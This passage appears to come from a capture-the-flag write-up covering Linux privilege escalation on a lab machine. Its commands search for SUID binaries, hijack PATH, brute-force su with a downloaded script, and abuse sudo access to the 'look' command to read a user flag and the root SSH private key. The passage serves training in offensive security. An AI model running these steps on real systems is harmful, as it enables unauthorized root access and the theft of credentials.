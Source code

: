![Tmp Directory](tmp.png)

---

## 🚀 Privilege Escalation

- Find SUID binaries:
  ```bash
  find / -perm -4000 -type f 2>/dev/null
  ```
  ![Finding Vulnerabilities](finding_vul.png)

- Update PATH:
  ```bash
  export PATH=/tmp:$PATH
  ```

- Use password list and brute-force with [suBF.sh](https://raw.githubusercontent.com/carlospolop/su-bruteforce/refs/heads/master/suBF.sh):

  ```bash
  chmod +x suBF.sh
  ./suBF.sh -u think -w password.txt
  ```

  ![Think Password](think_password.png)

- Check sudo permissions:
  ```bash
  sudo -l
  ```
  ![Sudo List](sudo_l.png)

- Use `look` command for privilege escalation ([GTFOBins](https://gtfobins.github.io/gtfobins/look/)):
  ```bash
  sudo look "" user.txt
  ```
  - **User flag:** `38375fb4dd8baa2b2039ac03d92b820e`
  ![Look Command](look.png)

- Extract root SSH key:
  ```bash
  sudo look "" /root/.ssh/id_rsa
  ```
  ![SSH Key](ssh_key.png)

- Copy SSH key to your machine:
  ```bash
  nano id_rsa
  chmod 600 id_rsa
  ```
  ![SSH Key on Machine](ssh_key_m_machine.png)
